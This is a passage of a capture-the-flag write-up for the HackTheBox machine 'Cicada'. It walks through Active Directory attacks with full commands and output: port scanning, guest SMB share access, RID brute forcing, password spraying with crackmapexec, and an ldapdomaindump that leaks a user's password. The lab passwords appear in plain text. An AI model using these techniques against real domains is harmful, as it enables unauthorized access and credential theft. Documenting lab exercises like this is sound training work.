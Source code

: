 RECON
--
Started Of With Doing a Port Scan  
**nmap $ip -p- -T5 -Pn || rustscan --ulimit 5000 $ip -- -sC -sV -Pn**  
This Returned Me 

    |-53/tcp   open  domain        syn-ack Simple DNS Plus
    |-
    |-88/tcp   open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-09-29 11:34:33Z)
    |-
    |-135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
    |-
    |-139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
    |-
    |-389/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
    |-ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
    |-Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
    |-Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
    |-Public Key type: rsa
    |-Public Key bits: 2048
    |-Signature Algorithm: sha256WithRSAEncryption
    |-Not valid before: 2024-08-22T20:24:16
    |-Not valid after:  2025-08-22T20:24:16
    |-MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
    |-SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
    | 
    |-ssl-date: TLS randomness does not represent time
    | 
    |-445/tcp  open  microsoft-ds? syn-ack
    |
    |-464/tcp  open  kpasswd5?     syn-ack
    |
    |-593/tcp  open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
    |
    |-636/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
    |-ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
    |-Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
    |-Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
    |-Public Key type: rsa
    |-Public Key bits: 2048
    |-Signature Algorithm: sha256WithRSAEncryption
    |-Not valid before: 2024-08-22T20:24:16
    |-Not valid after:  2025-08-22T20:24:16
    |-MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
    |-SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
    |
    |-ssl-date: TLS randomness does not represent time
    |-3268/tcp open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
    |-ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
    |-Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
    |-Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
    |-Public Key type: rsa
    |-Public Key bits: 2048
    |-Signature Algorithm: sha256WithRSAEncryption
    |-Not valid before: 2024-08-22T20:24:16
    |-Not valid after:  2025-08-22T20:24:16
    |-MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
    |-SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
    |
    |-ssl-date: TLS randomness does not represent time
    |
    |-3269/tcp open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
    |-ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
    |-Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
    |-Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
    |-Public Key type: rsa
    |-Public Key bits: 2048
    |-Signature Algorithm: sha256WithRSAEncryption
    |-Not valid before: 2024-08-22T20:24:16
    |-Not valid after:  2025-08-22T20:24:16
    |-MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
    |-SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
    |
    |-ssl-date: TLS randomness does not represent time
    |Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
    |
    |-Host script results:
    |-p2p-conficker: 
    |---Checking for Conficker.C or higher...
    |---Check 1 (port 43674/tcp): CLEAN (Timeout)
    |---Check 2 (port 14644/tcp): CLEAN (Timeout)
    |---Check 3 (port 62917/udp): CLEAN (Timeout)
    |---Check 4 (port 13628/udp): CLEAN (Timeout)
    |---0/4 checks are positive: Host is CLEAN or ports are blocked
    |-smb2-security-mode: 
    |----3:1:1: 
    |-----Message signing enabled and required
    |-smb2-time: 
    |---date: 2024-09-29T11:35:22
    |---start_date: N/A
    |-clock-skew: 6h59m59s   

From the Output i could tell this was a Domain Controller inside an active directory enviroment  
There was no website which was weird too see for once  

So As Usual i prioritized SMB first so i did some digging into it  

**smbclient -L \\$ip\\**

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    DEV             Disk      
    HR              Disk      
    IPC$            IPC       Remote IPC
    NETLOGON        Disk      Logon server share 
    SYSVOL          Disk      Logon server share
Ouput Showed the usual windows shares but HR and DEV were interesting so i started digging more into them  

**smbmap -H $ip -u "guest" -p " "**

    ADMIN$          NO ACCESS       Remote Admin
    C$              NO ACCESS       Default share
    DEV             NO ACCESS
    HR              READ ONLY
    IPC$            READ ONLY       Remote IPC
    NETLOGON        NO ACCESS       Logon server share 
    SYSVOL          NO ACCESS       Logon server share 
i had access to HR through a NULL session, after connecting to it i find one file "Notice from HR.txt"  
Inside this i found a password "Cicada$M6Corpb*@Lp#nZp!8"

From Here i wasnt too sure what i could do since i had no usernames, so finding some usernames was my next goal  
so i tried using kerbrute using some seclists wordlists  

**kerbrute userenum --dc $ip -d cicada.htb <wordlist>**
this returned me nothing other then "administrator" and "guest" which i already knew

so i went to my notes on attacking AD and decided to try RID Brute Forcing with crackmapexec  
**crackmapexec smb $ip -u "guest" -p "" --rid-brute**

        [...snip]
        SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
        SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
        SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
        SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
        SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
        SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
        [...snip]
and finally i had a list of usernames i could use  
now i can try some password spraying  

**crackmapexec smb $ip -u users.txt -p 'Cicada$M6Corpb\*@Lp#nZp!8' --continue-on-success**

        SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
        SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
        SMB         10.10.11.35     445    CICADA-DC        [YEP] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
        SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
        SMB         10.10.11.35     445    CICADA-DC        [YEP] cicada.htb\Dev:Cicada$M6Corpb*@Lp#nZp!8 
        SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 

Now i had a username to go with the Password, Dev and michael.wrightson  
tho i couldnt login to smb for whatever reason with the creds, i was stuck here for a while  
then finally i decided to try out the creds with ldap, and they worked!

now i could of used LdapSearch but that would take a while to parse through and check out the data so i just used ldapdomaindump
**ldapdomaindump $ip  -u "cicada.htb\michael.wrightson" -p 'Cicada$M6Corpb\*@Lp#nZp!8'**

from this it gave me a bunch of data, but i focused on the domain_users.html file which i hosted with python to view  
![image](https://github.com/user-attachments/assets/681402cc-012e-4276-a140-e114888b65bf)

and this gave me the password for the user "emily.carlos"

         emily.carlos : Q!3@Lp#M6b*7t*Vt
